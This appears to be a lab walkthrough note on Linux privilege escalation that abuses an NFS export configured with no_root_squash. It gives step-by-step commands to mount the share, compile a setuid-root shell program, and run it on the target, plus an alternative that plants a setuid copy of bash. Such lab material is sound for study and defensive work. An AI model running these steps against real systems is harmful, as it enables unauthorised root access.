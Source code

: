 #Linux #PrivEsc #NFS #NFSRootSquashing #gcc #mount

## **Detection**
Linux VM

1. In command line type: `cat /etc/exports`
2. From the output, notice that “`no_root_squash`” option is defined for the “`/tmp`” export.

## **Exploitation**
Attacker VM

1. Open command prompt and type: `showmount -e MACHINE_IP`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=2 MACHINE_IP:/tmp /tmp/1`
4. In command prompt type:
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/1/x.c
```
5. In command prompt type: `gcc /tmp/1/x.c -o /tmp/1/x`
6. In command prompt type: `chmod +s /tmp/1/x
`
Linux VM

1. In command prompt type: `/tmp/x`
2. In command prompt type: `id`

--- 
# **Troubleshooting**

Another way to solve the #NFS exploit (if step 3 does not mount with `vers=2`) without #gcc is this:

On Attacker machine:
1. Open command prompt and type: `showmount -e MACHINE_IP`
2. In command prompt type: `mkdir /tmp/1`
3. In command prompt type: `mount -o rw,vers=3 MACHINE_IP:/tmp /tmp/1`

On Target machine:
4. In command prompt type: `cp /bin/bash /tmp/1`

On Attacker machine:
5. In command prompt type: `sudo chown root:root /tmp/1/bash`
6. In command prompt type : `sudo chmod +sx /tmp/1/bash`

On Target machine:
7. In command prompt type: `/tmp/1/bash -p`
8. In command prompt type: `id`